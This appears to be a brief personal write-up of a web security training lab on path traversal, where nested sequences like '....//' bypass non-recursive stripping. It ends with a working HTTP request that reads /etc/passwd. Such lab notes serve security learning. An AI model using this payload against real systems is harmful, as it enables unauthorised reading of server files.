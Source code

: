 # 3 - Traversal sequences stripped non-recursively

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application strips [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences from the user-supplied filename before using it.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

Recordar:  You might be able to use nested traversal sequences, such as `....//` or `....\/`, which will revert to simple traversal sequences when the inner sequence is stripped.

```text
GET /image?filename=....//....//....//etc/passwd HTTP/1.1
```

 

